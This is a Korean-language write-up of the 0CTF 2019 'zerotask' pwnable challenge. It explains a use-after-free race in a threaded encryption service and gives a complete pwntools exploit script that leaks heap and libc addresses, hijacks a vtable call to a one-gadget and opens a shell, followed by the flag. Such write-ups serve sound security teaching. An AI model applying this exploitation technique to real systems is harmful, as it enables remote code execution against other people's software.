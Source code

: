 ```yaml
---
layout:     post
title:      "0CTF 2019 zerotask write-up"
subtitle:   "0ctf 2019 pwnable"
date:       2019-08-07
author:     "NextLine"
header-img: "img/post-bg-1.png"
tags:
    - WriteUp
---
```


# 0CTF 2019 zerotask write-up

### 1. Intro

대회때 빨리 풀어서 퍼블먹었던 문제이다. UAF 나는것만 찾으면 익스는 금방 할 수 있다.


### 2. Binary

```
1. Add task
2. Delete task
3. Go
Choice: 
```

1 : `EVP_CIPHER_CTX_new`와 `EVP_EncryptInit`를 호출하고 데이터를 저장한다.
2 : 1에서 만든 청크를 free한다.
3 : 1에서 만든 청크의 데이터를 encrypt/decrypt해서 보여준다.


### 3. Vulnerability

```c
void __fastcall __noreturn start_routine(Chunk *a1)
{
  int v1; // [rsp+14h] [rbp-2Ch]
  Chunk *_v2[2]; // [rsp+18h] [rbp-28h]
  __int64 v3; // [rsp+28h] [rbp-18h]
  __int64 v4; // [rsp+30h] [rbp-10h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]
  v5 = __readfsqword(0x28u);
  *_v2 = a1;
  v1 = 0;
  v3 = 0LL;
  v4 = 0LL;
  puts("Prepare...");
  sleep(2u);
  memset(text, 0, 0x1010uLL);
  if ( !EVP_CipherUpdate(_v2[0]->EVP_CIPHER_CTX, text, &v1, _v2[0]->data, _v2[0]->size) )
    pthread_exit(0LL);
  _v2[1] = (_v2[1] + v1);
  if ( !EVP_CipherFinal_ex(_v2[0]->EVP_CIPHER_CTX, text + _v2[1], &v1) )
    pthread_exit(0LL);
  _v2[1] = (_v2[1] + v1);
  puts("Ciphertext: ");
  print_text(stdout, text, _v2[1], 0x10uLL, 1uLL);
  pthread_exit(0LL);
}
```

3번 메뉴에서 쓰레드를 생성할 때 `EVP_CipherUpdate`를 하기전에 `sleep`으로 2초간 기다린다. 이때 청크를 삭제하면 use-after-free 취약점이 발생한다.


### 4. Exploit

1. 쓰레드에서 입력을 기다리고 있는 상태로 값을 쓰게되면 chunk를 부분적으로 overwrite할 수 있는데, 그걸 이용해서 heap주소를 leak할 수 있다.
2. heap 주소를 leak한 다음에는 전체 구조체를 덮어서 libc주소를 얻는다.
3. 마지막으로 `EVP_CIPHER_CTX` 포인터를 덮어서 `EVP_CipherUpdate`내부에서 사용하는 vtable call을 이용해 rip를 컨트롤 하면 된다.

```python
#from ntpwn import *
from pwn import *
from Crypto.Cipher import AES
KEY = 'B' * 0x20
IV = 'A' * 0x10
def decrypt(chunk):
    dec = AES.new(KEY, AES.MODE_CBC, IV)
    return dec.decrypt(chunk)
LOCAL = 0
def conn():
    if LOCAL:
        s = process('./task')
        #b = NT(s)
        #b.end()
    else:
        s = remote('111.186.63.201',10001)
    return s
s = conn()
sla = s.sendlineafter
sa = s.sendafter
def addtask(_id,endn,key,iv,datasize, data):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def addtask2(_id,endn,key,iv,datasize):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
def addtask3(_id,endn,key,iv,datasize,data):
    sla(': ','1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def addtask4(_id,endn,key,iv,datasize,data):
    s.sendline('1')
    sla(': ',str(_id))
    sla(': ',str(endn))
    sa(': ',str(key))
    sa(': ',str(iv))
    sla(': ',str(datasize))
    sa(': ',str(data))
def dele(_id):
    sla(': ','2')
    sla(': ',str(_id))
def go(_id):
    sla(': ','3')
    sla(': ',str(_id))
lc = ELF('libcrypto.so.1.0.0')
# leak heap
addtask(1,1 , KEY, IV, 0x50, 'B' * 0x50)
addtask(2,1 , KEY, IV, 0x50, 'B' * 0x50)
go(1)
dele(2)
dele(1)
addtask2(1,1 , KEY, IV, 0x50)
s.recvuntil('Ciphertext:')
buf = ''
for i in range(7):
    buf += s.recvline()
buf = [chr(int(i,16)) for i in buf.split()]
heap = u64(decrypt("".join(buf))[:8])
s.info("heap @ " + hex(heap))
s.send('A' * 0x50)
#pause()
# leak libc
addtask(3,1 , KEY, IV, 0x8, 'B' * 0x8)
addtask(4,1 , KEY, IV, 0x8, 'B' * 0x8)
addtask(5,1 , KEY, IV, 0x8, 'C' * 0x8)
go(3)
dele(3)
dele(4)
data = p64(heap - 0x460)
data += p64(8)
data += p32(1)
data += KEY + IV
data += '\x00' * 0x14
data += p64(heap + 0x480)
data += p64(5)
data += p64(0)
addtask3(4,1 , KEY, IV, 0x70, data)
s.recvuntil('Ciphertext:')
for i in range(2):
    buf = s.recvline()
pause()
buf = [chr(int(i,16)) for i in buf.split()]
libc = u64(decrypt("".join(buf))[:8]) - 0x225620 - 0x200000 - 0x3f1000
s.info("libc @ " + hex(libc))
oneshot = libc + 0x10a38c
fake = 'A' * 0x10
fake += p64(heap + 0x808)
fake += p64(0) + "\x01\x00\x11\x00\x00\x00\x00\x00"
fake += p64(oneshot)
addtask4(7,1 , KEY, IV, len(fake), fake)
addtask(8,1 , KEY, IV, 0x8, 'B' * 0x8)
go(7)
dele(7)
dele(8)
data = p64(heap - 0x460)
data += p64(8)
data += p32(1)
data += KEY + IV
data += '\x00' * 0x14
data += p64(heap + 0x810)
data += p64(5)
addtask3(8,1, KEY, IV, 0x70, data)
s.interactive()
# flag{pl4y_w1th_u4F_ev3ryDay_63a9d2a26f275685665dc02b886b530e}
```
